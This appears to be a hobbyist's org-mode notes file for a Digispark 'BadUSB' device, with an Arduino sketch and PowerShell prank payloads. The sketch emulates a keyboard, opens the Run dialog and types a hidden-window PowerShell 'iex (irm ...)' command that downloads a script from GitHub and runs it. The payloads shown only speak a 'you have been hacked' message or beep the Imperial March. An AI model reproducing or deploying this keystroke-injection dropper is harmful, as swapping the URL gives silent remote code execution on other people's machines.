 #+TITLE: My Digispark playground
#+auto_tangle: t


* Inhoud :toc:
- [[#about][About]]
- [[#execute_powershell_scriptino][Execute_Powershell_Script.ino]]
- [[#scriptps1][script.ps1]]
  - [[#old-payloads][Old payloads]]

* About
In this org file the arduino script for my digispark is described and several payloads which are hosted on my Github.

* Execute_Powershell_Script.ino

#+begin_src C :tangle Powershell.ino
#include "DigiKeyboard.h"

void setup() {
  // empty
}

void loop() {
  // Initialise digispark
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(600);

  // Opens the run dialog
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

  // Writes the command
  DigiKeyboard.print("powershell -w h ");
  DigiKeyboard.print("iex (irm \"");
  DigiKeyboard.print("https://raw.githubusercontent.com/Prutserdt/dotfiles/master/Stack/Code/Powershell/script.ps1");  // LINK HERE
  DigiKeyboard.print("\")");
  // Enters it
  DigiKeyboard.sendKeyStroke(KEY_ENTER);

  for (;;) {/* Stops the loop */}
}
#+end_src

Add-Type -AssemblyName System.speech
$s = New-Object System.Speech.Synthesis.SpeechSynthesizer
$s.Speak("You have been hacked. Please wave for the camera")



* script.ps1
The next code block is my current script that is deployed by my Digispark.


#+begin_src shell :tangle script.ps1
Add-Type -AssemblyName System.speech
$s = New-Object System.Speech.Synthesis.SpeechSynthesizer
$s.Speak("Yo, yo. You have been hacked. Please wave to the camera. Ha, ha. Fortunately this is just for shits and giggles. But. Remember. You could have been seriously compromized. Over and out. Peace.")
#+end_src




** Old payloads

Plays the Imperial March (Star Wars)
This PowerShell script plays the Imperial March used in the Star Wars film series.
https://github.com/fleschutz/PowerShell
NOTES: Author: Markus Fleschutz | License: CC0
#+begin_src shell
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(659, 500)
[System.Console]::beep(698, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(415, 500)
[System.Console]::beep(349, 350)
[System.Console]::beep(523, 150)
[System.Console]::beep(440, 1000)
exit 0 # success
#+end_src
